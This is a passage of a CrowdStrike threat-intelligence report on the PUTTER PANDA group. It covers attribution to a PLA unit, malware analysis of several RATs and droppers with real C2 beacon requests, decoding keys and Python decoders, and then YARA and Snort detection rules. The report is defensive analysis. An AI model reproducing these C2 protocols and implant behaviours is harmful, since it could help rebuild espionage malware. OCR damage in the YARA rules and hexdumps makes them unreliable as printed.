There is strong evidence to tie cpyy, an actor who appears to have been involved in historical PUTTER PANDA operations, to the PLA army and a location in Shanghai that is operated by the 12th Bureau, 3rd GSD of the PLA (Unit 61486). Another actor tied to this activity, httpchen, has declared publically that he was attending the School of Information Security Engineerina at SJTU. This university has previously been posited as a recruiting ground for the PLA to find personnel for its cyber intelligence gathering units, and there is circumstantial evidence linked cpyy to other actors based at SJTU.

Given the evidence outlined above, CrowdStrike attributes the PUTTER PANDA group to PLA Unit 61486 within Shanghai, China with high confidence. It is likely that this organization is staffed in part by current or former students of SJTU, and shares some resources and direction with PLA Unit 61398 (COMMENT PANDA).


### TECHNICAL ANALYSIS

Several RATs are used by PUTTER PANDA. The most common of these, the 4H RAT and the 3PARA RAT, have been documented previously by CrowdStrike in previous CrowdStrike Intelligence reporting. This analysis will be revisited below, along with an examination of two other PUTTER PANDA tools: pngdowner and httpclient. Two droppers have been associated with the PUTTER PANDA toolset; these are also briefly examined below.

#### 4H RAT - EXAMPLE MD5 HASH A76419A2FCA12427C887895E12A3442B

This RAT was first analyzed by CrowdStrike in April 2012, but a historical analysis shows that it has been in use since at least 2007 by the PUTTER PANDA actors. A listing of metadata for known samples, including C2 information, is shown in Appendix 1.

The operation of this RAT is described in detail in other CrowdStrike reporting, but is useful to revisit here to highlight the characteristics of the RAT:

- C2 occurs over HTTP, after connectivity has been verified by making a distinctive request (to the URI / search?qu= at www.google.com).
- A victim identifier is generated from the infected machine's hard disk serial number, XOR'ed with the key ldd46!yo , and finally nibble-wise encoded as upper-case ASCII characters in the range (A-P) – e.g., the byte value 0x1F becomes "BP".
- A series of HTTP requests characterizes the RAT's C2. The initial beacon uses a request with four parameters
- (h1, h2, h3, and h4) as shown in Figure 8 to register the implant with the C2 server.
- Communication to and from the C2 server is obfuscated using a 1-byte XOR with the key 0xBE.
- · The commands supported by the RAT enable several capabilities, including:
	- o Remote shell
	- o Listing of running processes (including loaded modules)
	- o Process termination (specified by PID)
	- o File and directory listing
	- o File upload, download, deletion, and timestamp modification


GET /search513417?h1=51&h2=1&h3=213383&h4=FMFEFEFHAEBIBLFPFLFCACFC HTTP/1.1 Accept: * /* User-Agent: Mozilla/5.0 (compatible; AIAFBCFBBLBBBNFKFPAFAGAFFDBBEL; ) Host: radio.gamemuster.com Connection: Keep-Alive Figure 8. 4H RAT Example Beacon

#### Where:

```
13417
           = Random number
           = OS version identifier (51 = Windows XP)
h1=51
h2=1
           = Proxy usage (1 = direct connection/no proxy, 3 = proxy used)
h3=213383
            = Campaign identifier
h4=FMFEFEFHAEBIBLFPFLFCACFC
            = Victim identifier (encoded as described above)
AIAFBCFBBLBBBNFKFPAFAGAFFDBBEL
            = Encoded victim hostname (in this example "dave-0d53ab1e02")
```

```
def decode ua hostname (instring, key="ldd46!yo") :
    from binascii import unhexlify
    stage1 = unhexlify("".join([hex(ord(c) - 0x41)[2:] for c in instring]))
    return "".join({chr(ord(c) ^ ord(key[i % len(key)])) for i, c in
enumerate (stage1) ] )
```
Figure 9. Sample Python Code to Decode Hostname from User-Agent Snippet

#### 3PARA RAT - EXAMPLE MD5 HASH BC4E9DAD71B844DD3233CFBBB96C1BD3

The 3PARA RAT was described in some detail in other CrowdStrike reporting, which examined a DLL-based sample with an exported filename of ssdpsvc.dll. Other observed exported filenames are msacem.dll and mrpmsg.dll, although the RAT has also been observed in plain executable (EXE) format.

On startup, the RAT attempts to create a file mapping named

&*SDKJfhksdf89*DIUKJDSF&*sdfsdf78sdfsdf. This is used to prevent multiple instances of the RAT being executed simultaneously. The RAT will then use a byte-wise subtractionbased algorithm (using a hard-coded modulo value) to decode C2 server details consisting of a server hostname and port number, in this example nsc.adomhn. com, port 80. The decoding algorithm is illustrated in Figure 10 below. The key and modulo values vary on a per-sample basis. Decoded C2 settings, along with sample metadata, are listed in Appendix 2.


```
def decode para string (instring, key=0x9d, modval=20) :
    outdata = array.array ("B", instring)
    for i in xrange (0, len (instring) , 2) :
        outdata[i] = (outdata[i] - (key % modval)) & 0xFF
        key += 1
    return outdata. tostring ( )
```
The RAT is programmed in C++ using Microsoft Visual Studio, and it makes use of the object-oriented and parallel programming features of this environment; Standard Template Library (STL) objects are used to represent data structures such as strings and lists, and custom objects are used to represent some of the C2 command handlers (e.g., CCommandCMD). Several threads are used to handle different stages of the C2 protocol, such as receiving data from the server, decrypting data, and processing commands. Standard Windows primitives such as Events are used to synchronize across these threads, with a shared global structure used to hold state.

Once running, the RAT will load a binary representation of a date/time value13 from a file C:\RECYCLER\restore.dat, and it will sleep until after this date/time has passed. This provides a mechanism for the operators to allow the RAT to remain dormant until a fixed time, perhaps to allow a means of regaining access if other parts of their toolset are removed from a victim system.

```
GET /microsoft/errorpost/default/connect.aspx?ID=30783 HTTP/1.1
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: nsc.adomhn.com
Connection: Keep-Alive
Where:
```
A random number in decimal format ID=30783

As with the 4H RAT, the C2 protocol used by the 3PARA RAT is HTTP based, using both GET and POST requests. An initial request is made to the C2 server (illustrated in Figure 11 above), but the response value is effectively ignored; it is likely that this request serves only as a connectivity check, as further C2 activity will only occur if this first request is successful. In this case, the RAT will transmit some basic victim information to the C2 server along with a 256-byte hash of the hard-coded string HYF54&%9&jkMCXuiS. It is likely that this request functions as a means to authenticate the RAT to the C2 server and register a new victim machine with the controller. A sample request and its structure are shown in Figure 12.

13Using the standard Windows SYSTEMTIME structure

Figure 10. Sample Python Code Illustrating C2 Server Decoding Routine

Figure 11. 3PARA RAT Initial Beacon


| 000000000 | 50 4f 53 54 20 2f 6d 69 | 63 72 6f 73 6f 66 74 2f POST /mi crosoft/ |
| --- | --- | --- |
| 00000010 | 65 72 72 6f 72 70 6f 73 | 74 2f 64 65 66 61 75 6c errorpos t/defaul |
| 00000020 | 74 2f 63 6f 6e 6e 65 63 | 74 2e 61 73 70 78 3f 49 t/connec t.aspx?I |
| 00000030 | 44 3d 31 38 35 31 31 20 | 48 54 54 50 2f 31 2e 31 D=18511 HTTP/1.1 |
| 00000040 | 0d 0a 55 73 65 72 2d 41 | 67 65 6e 74 3a 20 4d 6f .. User-A gent: Mo |
| 00000050 | 7a 69 6c 6c 61 2f 34 2e | 30 20 28 63 6f 6d 70 61 zilla/4. 0 (compa |
| 00000060 | 74 69 62 6c 65 3b 20 4d | 53 49 45 20 36 2e 30 3b tible; M SIE 6.0; |
| 00000070 | 20 57 69 6e 64 6f 77 73 | 20 4e 54 20 35 2e 31 29 Windows NT 5.1) |
| 00000080 | 0d 0a 48 6f 73 74 3a 20 | 6e 73 63 2e 61 64 6f 6d .. Host: nsc.adom |
| 00000090 | 68 6e 2e 63 6f 6d Od 0a | 43 6f 6e 74 65 6e 74 2d hn.com .. Content- |
| 000000A0 | 4c 65 6e 67 74 68 3a 20 | 35 31 32 Od Oa 43 6f 6e Length: 512 .. Con |
| 000000B0 | 6e 65 63 74 69 6f 6e 3a | 20 4b 65 65 70 2d 41 6c nection: Keep-Al |
| 000000000 | 69 76 65 Od Oa 43 61 63 | 68 65 2d 43 6f 6e 74 72 ive .. Cac he-Contr |
| 000000000 | 6f 6c 3a 20 6e 6f 2d 63 | 61 63 68 65 Od Oa Od Oa ol: no-c ache ... |
| 000000E0 | ac 10 d0 81 52 10 a0 b7 | 00 00 00 ac 10 d0 81 R |
| 000000F0 | e4 04 00 00 00 00 00 00 | 03 00 02 00 c8 04 00 00 |
| 00000100 | 00 00 00 00 30 00 00 00 | 00 00 00 2f ff eb 02 0 / ... |
| 00000110 | c4 65 f1 b3 cf a5 7e e2 | c0 1a d4 7f 78 46 26 b5 .e ... ~ |
| 00000120 | 86 15 £9 34 9c 3d 67 84 | 6a 48 aa df dc 30 60 24 ... 4 .= g. jH ... 0 $ |
| 00000130 | 69 d1 e8 af 64 c6 8c 99 | 0b dd fd 4c 81 72 ef c9 i ... d L.r .. |
| 00000140 | ba 88 a6 b0 bd fa 39 d2 | ab 09 98 70 13 5d 90 6b 9 p. ].k |
| 00000150 | c2 c8 61 44 fc 22 40 e7 | bc ed 4e f8 11 4f 49 79 .. aD. "@. .. N.. OIy |
| 00000160 | 2f 23 87 03 58 3c 0d 82 | 2e d3 cb 28 97 1c 66 b4 /# .. X < ( .. f. |
| 00000170 | b8 80 75 94 25 59 5e 9e | 6d 73 b9 c1 2d ae a7 76 .. u. %Y . ms .. - .. v |
| 00000180 | 6e f4 29 33 8b 12 ea f7 | 53 47 2c 95 7c 42 ec db n.) 3 ... SG, .   B .. |
| 00000190 | d0 52 d8 74 5a 31 eb 14 | 8e 3e e9 e5 5b ac c3 fe .R.tZ1 .. . > .. [ ... |
| 000001A0 | 45 54 00 0a ad ce 3b a0 | a9 9f e3 9d f0 f5 6c c7 ET ... ; . . |
| 000001B0 | 0f e4 92 6f 57 3f bf 71 | 5f 93 b7 01 21 ee 20 2b ... oW ?. q _... ! . + |
| 000001C0 | 05 0e b1 43 83 f3 7d 7b | 91 8f fb ca b2 77 96 4a ... C .. }{ w.J |
| 000001D0 | 8d be 7a 27 08 el 35 1f | de 63 4b 85 c5 f6 04 36 .. z' .. 5. . cK ... 6 |
| 000001E0 | d6 02 e0 e6 16 9b bb 38 | 07 37 32 a3 41 0c 4d 1e 8 .72.A.M. |
| 000001F0 | 3a 5c a2 f2 d5 89 da d7 | ff 56 cd 19 b6 18 a4 a1 :\ V |
| 00000200 | 68 8a 10 17 50 06 d9 cc | 2a 1b 55 9a a8 51 62 1d h ... P ... * . U .. Qb. |
| 00000210 | 00 00 00 00 64 61 76 65 | 2d 30 64 35 33 61 62 31 dave -0d53ab1 |
| 00000220 | 65 30 32 00 00 00 00 00 | 00 00 00 00 00 00 00 00 e02 |
| 00000230 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 00 |
| 00000240 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |
| 00000250 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 00 |
| 00000260 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 00 |
| 00000270 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 00 |
| 00000280 | 00 00 00 00 00 00 00 00 | 00 00 00 00 00 00 00 00 |
| 00000290 | 00 00 00 00 0c fb c1 00 | 0e 00 00 34 f9 c1 00 4 ... |
| 000002A0 | 41 10 00 10 7c f9 c1 00 | Of 00 00 00 0c fb cl 00 A ... |
| 000002B0 | 0e 00 00 00 58 f9 c1 00 | 83 1a 00 10 7c f9 c1 00 ... X |
|  |  | Figure 12. Sample |
| 000002C0 | Of OO OO 80 8e la 00 10 | 0e 00 00 00 02 00 00 00 |
| 000002D0 | 78 f9 c1 00 34 ff c1 00 | 3PARA RAT Second- fc f9 c1 00 ef 18 00 10 x... 4 |
|  |  | ary Beacon/ |
|  | Where the POST body data has the following structure: | C2 Registration |

146ee  for details of this API, which is rarely used.


| Data type | Offset | Sample value | Meaning |
| --- | --- | --- | --- |
| DWORD | 0×000 | ac 10 d0 81 | Victim IP address |
| WORD | 0×004 | 52 10 | Random |
| WORD | 0×006 | a0 b7 | Value derived from hashing the victim |
|  |  |  | hostname |
| DWORD | 0×008 | 00 00 00 00 | Hardcoded 0 value |
| DWORD | 0x00C | ac 10 d0 81 | Victim IP address (again) |
| DWORD | 0×010 | e4 04 00 00 | Codepage in use, i.e. language |
| DWORD [ 7 ] | 0×014 | 00 00 ... eb 02 | Hardcoded values (0x0, 0x020003, 0x4c8, |
|  |  |  | 0x0, 0x30, 0x0, 0x2EBFF2F) |
| BYTE [256] | 0x02C | c4 65 ... 62 1d | 256-byte hash of the hardcoded 'key' |
|  |  |  | string "HYF54&89&jkMCXuiS", generated by |
|  |  |  | the HashData API-4. |
| DWORD | 0x12C | 00 00 00 00 | Hardcoded 0 value |
| BYTE [128] | 0×130 | dave -. . . 02 | Victim hostname |
| BYTE [76] | 0x1B0 | 0c fb ... 00 10 | Uninitialized data, in this case |
|  |  |  | containing previously used stack frames. |

If this request is also successful, the RAT will attempt to retrieve tasking from the controller using a further distinctive HTTP request shown in Figure 13, repeating this request every two seconds until valid tasking is returned.

```
GET /microsoftupdate/getupdate/default.aspx?ID=18467para1=-2117070676para2=-
1214246830para3=41 HTTP/1.1
Accept: * /*
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)
Host: nsc.adomhn.com
Connection: Keep-Alive
Where:
ID=18467
                        A random number.
para1=-2117070676 =
                        Host ip address represented as a decimal number
                        (in hex 0x81d010ac = 172.16.208.129)
                        Decimal value of the concatenation of the WORD length
para2=-1214246830 =
                        victim ID value (a0 b7 as above) along with random
                        WORD value (52 10 in this case) - i.e. OxB7A01052
                  =
para3=41
                        Random number.
```
Figure 13. 3PARA RAT Sample Tasking Request


Returned tasking is decrypted using the DES algorithm in CBC mode with a key derived from the MD5 hash of the string HYF54&%9&jkMCXuiS (as used in the secondary beacon shown above). If this fails, the RAT will fall back to decoding the data using an 8-byte XOR with a key derived from data returned from the HashData API with the same key string. Output data produced by tasking instructions is encrypted in the same manner as it was decrypted and sent back to the C2 server via HTTP POST request to a URI of the form /microsoft/errorpost/ default.aspx?ID=, where the ID value is a random number in decimal representation - as with the initial request shown in Figure 4.

The set of commands supported by the RAT is somewhat limited, indicating that perhaps the RAT is intended to be used as a second-stage tool, or as a failsafe means for the attackers to regain basic access to a compromised system (which is consistent with its support for sleeping until a certain date/fime). Some of the supported commands are implemented using C++ classes derived from a base CCommand class:

- CCommandAttribe Retrieve metadata for files on disk, or set certain attributes such as creation/ modification timestamps.
- CCommandCD Change the working directory for the current C2 session.
- CCommandCMD Execute a command, with standard input/output/error redirected over the C2 channel.
- CCommandNOP List the current working directory.

However, other commands are not implemented in this way. These other commands contain functionality to:

- · Pause C2 activity for a random time interval.
- · Shutdown C2 activity and exit.
- Provide a date and time before which beaconing will not resume, recorded in the file C:\RECYCLER\ restore.dat as noted above.

The use of C++ classes that inherit from a base class to carry out some of the tasking commands, along with the use of concurrency features, indicates that the developers of the RAT put some thought into the architecture and design of their tool, although the decision to implement some commands outside of the class-based framework is curious, and may indicate multiple developers worked on the RAT (or a single developer with shifting preferences for his coding style).


#### PNGDOWNER – EXAMPLE MD5 HASH 687424F0923DF9049CC3A56C685EB9A5

The pngdowner malware is a simple tool constructed using Microsoft Visual Studio and implemented via single C++ source code file. This sample contains a PDB path of Y:\Visual Studio 2005 |Projects\branch-downer\ downer\Release\downer.pdb, but other similar paths Z: \ Visual Studio 2005\ Projects \pngdowner\Release \ pngdowner.pdb and Z:\Visual Studio 2005\Projects\downer\Release\downer.pdb have also been observed in other samples. Appendix 3 lists metadata for known pngdowner samples.

Initially, the malware will perform a connectivity check to a hard-coded URL ( using a constant user agent Mozilla/4.0 (Compatible; MSIE 6.0;). If this request fails, the malware will attempt to extract proxy details and credentials from Windows Protected Storage, and from the IE Credentials Store using publicly known methods[6 , using the proxy credentials for subsequent requests if they enable outbound HTTP access. An initial request is then made to the hard-coded C2 server and initial URI – forming a URL of the form (in this sample)  1/index.asp?95027775, where the numerical parameter represents a random integer. A hard-coded user agent of myAgent is used for this request, and subsequent communication with the C2 server.

Content returned from this request to the C2 server will be saved to a file named index.dat in the user's temporary directory (i.e., %TEMP%). This file is expected to contain a single line, specifying a URL and a filename. The malware will then attempt to download content from the specified URL to the filename within the user's temporary directory, and then execute this file via the WinExec API. If this execution attempt succeeds, a final C2 request will be made – in this case to a URL using the same path as the initial request (and a similarly random parameter), but with a filename of success.asp. Content returned from this request will be saved to a file, but then immediately deleted. Finally, the malware will delete the content saved from the first request, and exit.

The limited functionality, and lack of persistence of this tool, implies that it is used only as a simple downloadand-execute utility. Although the version mentioned here uses C++, along with Visual Studios Standard Template Library (STL), older versions of the RAT (such as MD5 hash b54e91c234ec0e739ce429f47a317313), built in 2011, use plain C. This suggests that despite the simple nature of the developers have made some attempts to modify and perhaps modernize the code. Both versions contain debugging/progress messages such as "down file success". Although these are not displayed to the victim, they were likely used by the developers as a simple means to verify functionality of their code.


#### HTTPCLIENT - EXAMPLE MD5 HASH 544FCA6EB8181F163E2768C81F2BA0B3

Like pngdowner, the httpclient malware is a simple tool that provides a limited range of functionality and uses HTTP for its C2 channel. This malware also initially performs a connectivity check to www.microsoft.com using the hard-coded user agent Mozilla/4.0 (Compatible; MS'E 6.0;), although in this variant no attempt is made to extract proxy credentials.

The malware will then connect to its configured C2 infrastructure (file.anyoffice.info) and perform a HTTP request of the form shown in Fiaure 14 below:


Content returned from the C2 server is deobfuscated by XOR'ing the content with a single byte, 0x12. The decoded data is then checked for the string runshell. If this string is not present, the C2 request is repeated every 0.5 seconds. Otherwise, a shell process is started (i.e., cmd.exe), with input/output redirected over the C2 channel. Shell commands from the server are followed by an encoded string $$$, which indicates that the shell session should continue. If the session is ended, two other commands are supported: m2b (ypload file) and b2m (download file).

Slight variations on the C2 URLs are used for different phases of the C2 interaction:

- Shell command: /Microsoft/errorpost<random number>/default.asp?tmp=<encoded hostname>
- Shell response: /MicrosoftUpdate/GetUpdate/KB<random number>/default.asp?tmp=<encoded hostname>

15 Both methods are detailed here: 


Given the lack of a persistence mechanism and low level of sophistication, it is likely that httpclient – like pngdowner – is used as a second-stage or supplementary/backup tool. Appendix 4 lists metadata for observed httpclient samples.

### DROPPERS – RC4 AND XOR BASED

Other CrowdStrike reporting describes a dropper used by PUTTER PANDA (abc.scr) to install the 4H RAT. This dropper uses RC4 to decrypt an embedded payload from data in an embedded resource before writina the payload to disk and executing it. Several instances of this dropper have been observed, most commonly in association with the 4H RAT, but also in relation to other tools that will be described in forthcoming reporting. Another dropper has been observed, exclusively installing the pngdowner malware (example MD5 hash 4c50457c35e2033b3a03fcbb4adac7b7). This dropper is simplistic in nature, and is compiled from a single C++ source code file. It contains a Word document in plaintext (written to Bienvenue_a_Sahaja_Yoga_Toulouse. doc), along with an executable (Update.exe) and DLL (McUpdate.dll). The executable and DLL are both contained within the .data section of the dropper, obfuscated with a 16-byte XOR key (consisting of the byres 0xA0 – 0xAF).

Both the document and executable are written to disk and the executed via the ShellExecute API (using the verb "open"). The executable is also installed into the ASEP registry key HKCU\Software\ Microsoft Windows\ CurrentVersion\Run, with a value named McUpdate. Finally, the dropper deletes itself via a batch file. The dropped executable (MD5 hash 38a2a6782e1af29ca8cb691cf0d29a0d) primarily aims to inject the specified DLL (McUpdate.dll, MD5 hash 08c7b5501 df060ccfc3aa5c8c41b452f) into a process that would normally be accessing the network, likely in order to disguise the maticious activity. Module names corresponding to Outlook Express (msinm.exe), Outlook.exe), Internet Explorer (iexplore.exe), and Firefox (firefox.exe) are used. If Internet Explorer is used, then the malware will attempt to terminate processes corresponding to two components of Sophos Anti-Virus (SAVAdminService.exe and SavService.exe). Four examples of these droppers were located, using a mixture of decoy PDF and Microsoft Word documents (shown below in Figures 15-18). The common theme throughout these documents is space technology (Bienvenue a Sahaja Yoga Toulouse.doc does not follow this trend, but could be targeted at workers at the Toulouse Space Centre, the "largest space centre in Europe" ), indicating that the attackers have a keen interest in this sector, which is also reflected in the choice of name for some of the C2 domains used (see the Attribution section above).

liThe API used expects a parameter of the form char**, and is given a char* pointer to the "*/*" string, but the stack data following this pointer is not properly zeroed or cleansed before use, leading to uncontrolled memory being read as other strings.


The Pleiades Days 2012

#### Dear Mr/Mrs,

A few month before the launch of the first Pleiades satellite, CNES and Spot Image are pleased to invite you to the Pléiades Days on January 17 and 18, 2012, in Toulouse, France.

The objective of Pleiades Days is to present the performances of this new optical Earth observation system designed for civil and military use, the new applications it will serve and the data validation programme to be implemented during Pleiades' first year.

Pleiades system will provide new opportunities through its very high spatial resolution, its agility and its acquisition capabilities. These make it perfectly suited to mapping, defence and civil protection needs.

We therefore look forward to seeing you at our event to be held on January 17 & 18, 2012, to present the Pleiades system and the related services by Astrium GEO as well as the thematic validation campaign that will be conducted during the first year of Pleiades' mission.

All details for registration plus a preliminary programme will be communicated in November.

Herve Buchwalter o

Astrium

We look forward to seeing you in Toulouse in January.

Yours sincerely,

Thierry Duquesne Director for Strategy. Programmes and International Relations CMES

Figure 15. "Invitation_Pleiades_012012.doc" Dropped by a4e4b-3ceb949e8494968c-71fa840a516

#### Bienvenue à Sahaja Yoga Toulouse

Enfin, une méthode universelle pour mieux se connaître ... et connaître l'Univers et les Dieux, comme le recommandait Socrate !

Figure 16. "Bienvenue_a_Sahaja Yoga_Toulouse.doc" Dropped by 4c50457c35e-2033b3a03fcbb4adac7b7


Le yoga de l'équilibre ...

Le yoga qui libère du stress et installe durablement le calme et la paix intérieure ...

- qui fait devenir son propre maitre ...

- qui amène vers l'idéal de soi-même ...

- qui integre la personnalité.

- qui unit l'être humain à l'énergie universelle.

- qui élargit le champ de la conscience ...

- qui fait aimer le silence ..




Figure 17. "50th AIAA Satellite Sciences Conference.pdf" from 6022cf1fcf2b478bed8da1fa3e-996ac5

Figure 18: "Project-Manager-Job-Description-Surrey-Satellite-Technology-world-leader-provision-small-satellite-solutions. pdf" Dropped by 9cb6103e9588d506cfd81961ed41eefe

#### Project Manager Job Description

Job Title: Project Manager

Location: Englewood, CO Job type: Full Time

Career level: Experienced

Salary: Attractive benefit package, salary based on experience

#### General Description:

Surrey Satellite Technology is a world leader in the provision of small satellite solutions applications and services with an unparalleled track record in the delivery of high quality. rapid, cost effective satellite systems

With the utility and application of small satellite solutions firmly established and a growing global demand, Surrey has established a US company, Surrey Satellite Technology US LLC (SST-US), to address the US market and

SST-US has a number of opportuni

As a project manager you will be responsible for supporting proposal activities, contract negotiations and manage satellite mission projects or key aspects of a project through all phases.


## Mitigation & Remediation


#### MITIGATION & REMEDIATION

A number of specific and generic detection methods are possible for this RAT, both on a host and on the network. These are detailed below, and are designed to expand upon the indicators reported in other CrowdStrike reporting.

#### REGISTRY ARTIFACTS

The following Windows registry artifacts are indicative of a compromised host:

- ASEP registry key HKCU\Software\Microsoft\Windows\CurrentVersion \Run, and value named McUpdate
#### FILE SYSTEM ARTIFACTS

The presence of the following file system artifacts is indicative of a compromised host:

- · ssdpsvc.dll, msacem.dll, or mrpmsg.dll
- · C:\RECYCLER\restore.dat
- · %TEMP%\index.dat

#### HOST INDICATORS

A file mapping named &*SDKJfhksdf89*DIUKJDSF&*sdfsdf78sdfsdf also indicates the victim machine is compromised with PUTTER PANDA malware.


#### YARA Rules

```
rule CrowdStrike_PutterPanda_01 : fourh_stack_strings putterpanda
イ
meta:
      description = "PUTTER PANDA - 4H RAT"
      date = "2014-03-30"
      version = "1.0"
      in the wild = true
      copyright = "CrowdStrike, Inc."
      actor = "PUTTER PANDA"
      yara_version = ">=1.6"
strings :
    $key combined 1 = { C6 44 24 ?? 34 C6 44 24 ?? 36 C6 44 24 ?? 21 C6 44 24
?? 79 C6 44 24 ?? 6F C6 44 24 ?? 00 }
```


```
/ / ebp
    $keyfrag_ebp_1 = { C6 45 ?? 6C }
                                         / / 1d66 ! yo
    $keyfrag_ebp_2 = { C6 45 ?? 64 }
    $keyfrag_ebp_3 = { C6 45 ?? 34 }
    $keyfrag ebp 4 = { C6 45 ?? 36 }
    $keyfrag_ebp_5 = { C6 45 ?? 21 }
    $keyfrag_ebp_6 = { C6 45 ?? 79 }
    $keyfrag ebp 7 = { C6 45 ?? 6F }
    // esp
                                        // 1d66!yo
    $keyfrag_esp_1 = { c6 44 ?? 6C }
    $keyfrag_esp_2 = { c6 44 ?? 64 }
    $keyfrag_esp_3 = { c6 44 ?? 34 }
    $keyfrag_esp_4 = { c6 44 ?? 36 }
    $keyfrag_esp_5 = { c6 44 ?? 21 }
    $keyfrag_esp_6 = { c6 44 ?? 79 }
    $keyfrag_esp_7 = { c6 44 ?? 6F }
    / / reduce FPs by checking for some common strings
    $check zeroes = "0000000"
    $check_param = "Invalid parameter"
    $check ercv = "ercv= &d"
    $check unk = "unknown"
condition :
    any of ($key_combined*) or
    (1 of ($check *) and
       (
            (
                all of ($keyfrag ebp *) and
                for any i in (1. . #keyfrag_ebp_5) : (
                    for all of ($keyfrag_ebp_*) : ($ in (@keyfrag_ebp_5[i]-
100 .. @keyfrag_ebp_5 [i]+100) )
               ି
            >
            or
            (
                for any i in (1.. #keyfrag_esp_5) : (
                    for all of ($keyfrag_esp_*) : ($ in (@keyfrag_esp_5[i]-
100 . . @keyfrag_esp_5[i]+100) )
               ି
           )
       】
   )
}
rule CrowdStrike_PutterPanda_02 : rc4_dropper putterpanda
ﺒﻨﻀﻢ
meta:
      description = "PUTTER PANDA - RC4 dropper"
      date = "2014-03-30"
      version = "1.0"
      in_the_wild = true
      copyright = "CrowdStrike, Inc."
```


```
actor = "PUTTER PANDA"
```

```
strings:
    $res_lock = "LockResource"
    $res_size = "SizeofResource"
    $res_load = "LoadResource"
    $com = "COMSPEC"
    $stack h = { C6 4? [1-2] 68 }
    $stack o = { C6 4? [1-2] 6F }
    $stack_v = { C6 4? [1-2] 76 }
    $stack c = { C6 4? [1-2] 63 }
    $stack_x = { C6 4? [1-2] 78 }
    $stack dot = { C6 4? [1-2] 2E }
    $cryptaq = "CryptAcquireContextA"
condition :
    uint16(0) == 0x5A4D and
    (all of ($res *) ) and
    (all of ($stack_*) ) and
    Scryptag and $com
}
rule CrowdStrike_PutterPanda _03 : threepara_para_implant putterpanda
4
meta:
     description = "PUTTER PANDA - 3PARA RAT"
      date = "2014-03-30"
      version = "1.0"
      in the wild = true
      copyright = "CrowdStrike, Inc."
      actor = "PUTTER PANDA"
strings:
                    = "%s%dpara1=%dpara2=%dpara3=%d"
    Şparafmt
    $class_attribe = "CCommandAttribe"
    $class_cd = "CCommandCD"
    $class cmd
                  = "CCommandCMD"
                 = "CCommandNop"
    $class_nop
condition:
   $parafmt or all of ($class *)
ﻟﺴﻴﻨﺎ
rule CrowdStrike_PutterPanda_04: pngdowner putterpanda
イ
meta:
      description = "PUTTER PANDA - PNGDOWNER"
      date = "2014-03-30"
      version = "1.0"
      in_the_wild = true
      copyright = "CrowdStrike, Inc."
```


```
actor = "PUTTER PANDA"
strings:
    $myagent = "myAgent"
    $readfile = "read file error:"
    $downfile = "down file success"
    $avail = "Avaliable data: 8u bytes"
condition :
   3 of them
}
rule CrowdStrike_ PutterPanda_05 : httpclient putterpanda
-
meta:
      description = "PUTTER PANDA - HTTPCLIENT"
      date = "2014-03-30"
      version = "1.0"
      in the wild = true
      copyright = "CrowdStrike, Inc."
      actor = "PUTTER PANDA"
strings:
    $recv_wrong = "Error:recv worng"
condition:
    any of them
}
rule CrowdStrike_ PutterPanda_06 : xor_dropper putterpanda
 |
meta:
      description = "PUTTER PANDA - XOR based dropper"
      date = "2014-03-30"
      version = "1.0"
      in the wild = true
      copyright = "CrowdStrike, Inc."
      actor = "PUTTER PANDA"
strings:
    $xorloop = { 8b d0 83 e2 0f 8a 54 14 04 30 14 01 83 c0 01 3b c6 7c ed }
condition:
    $xorloop
}
```


#### NETWORK SIGNATURES

In addition the domains listed in the Appendices and in the Attribution section, the generic signatures below can be used to detect activity from the malware described in this report.

#### Snort Rules

```
alert tcp $HOME NET any -> $EXTERNAL_NET any ( \
  msg: "CrowdStrike PUTTER PANDA 4H Beacon Message"; \
  content: "/search5"; http uri; \
  content: "?h1="; http uri; \
  content: "&h2="; http uri; \
  content: "&h3="; http_uri; \
  content: "&h4="; http_uri; \
  classtype:trojan-activity; metadata: service http; \
  sid: 171200702; rev: 20120424; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \
  msg: "CrowdStrike PUTTER PANDA 3PARA RAT initial beacon - URI"; \
  flow:to_server, established; \
  content:"/microsoft/errorpost/default/connect.aspx?ID="; http uri; \
  classtype: trojan-activity; metadata: service http; \
  sid: 181311501; rev: 20131212; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \
  msg: "CrowdStrike PUTTER PANDA 3PARA RAT initial beacon - Hashed bytes"; \
  flow:to server, established; \
  content:"| c4 65 f1 b3 cf a5 7e e2 c0 1a d4 7f 78 46 26 b5 86 15 f9 34 9c
3d 67 84 6a 48 aa df dc 30 60 24 |"; depth: 2000; \
  classtype: trojan-activity; \
  sid: 181311502; rev: 20131212; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \
  msg: "CrowdStrike PUTTER PANDA 3PARA RAT data exfiltration"; \
  flow:to server, established; \
  content: "POST"; http method; \
  content:"/microsoft/errorpost/default.aspx?ID="; http uri; \
  classtype: trojan-activity; metadata: service http; \
  sid: 181311503; rev: 20131212; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \
  msg: "CrowdStrike PUTTER PANDA 3PARA RAT tasking request"; \
  flow:to server, established; \
  content:"GET"; http method; \
  content: ".aspx?ID="; http raw uri; \
  content: "para1="; http raw uri; within: 15\
  content: "para2="; http raw uri; within: 20; \
  content: "para3="; http raw uri; within: 20; \
  classtype: trojan-activity; metadata: service http; \
  sid: 181311504; rev: 20140421; )
alert tcp $HOME NET any -> $EXTERNAL NET any ( \
  msg:"CrowdStrike PUTTER PANDA PNGDOWNER user agent"; \
  flow:to server, established; \
```


content: "User-Agent: myAgent"; http header; \ classtype: trojan-activity; metadata: service http; \ sid: 171400101; rev: 20140401; )

- alert tcp $HOME NET any -> $EXTERNAL NET any ( \ msg: "CrowdStrike PUTTER PANDA HTTPCLIENT Request"; \ flow:to server, established; \ content: "/MicrosoftUpdate/ShellEX/KB"; http_uri; \ content: "/default.asp?tmp="; within: 35; http_raw_uri; \ classtype: trojan-activity; metadata: service http; \ sid: 171400102; rev: 20140401; )
